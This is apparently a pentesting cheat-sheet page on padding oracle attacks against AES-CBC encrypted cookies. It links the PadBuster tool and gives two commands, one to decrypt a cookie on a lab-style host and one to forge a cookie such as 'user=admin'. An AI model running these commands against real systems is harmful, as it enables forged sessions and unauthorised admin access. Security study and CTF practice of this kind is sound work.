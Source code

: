 ```yaml
---
title: "Padding Oracle"
date: 2024-6-27
tags: ["padding oracle", "padbuster", "aes", "cbc", "cipher", "encryption"]
---
```


---
### padbuster

[Download padbuster](https://github.com/AonCyberLabs/PadBuster)

```bash
# 8 or 16     : block size
# encoding 0  : base64
padbuster http://10.10.11.10/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0
```

```bash
# Forge cookie value, e.g. user=admin
padbuster http://10.10.11.10/index.php <COOKIE_VALUE> 8 -cookies <COOKIE_NAME>=<COOKIE_VALUE> -encoding 0 -plaintext user=admin
```

<br>
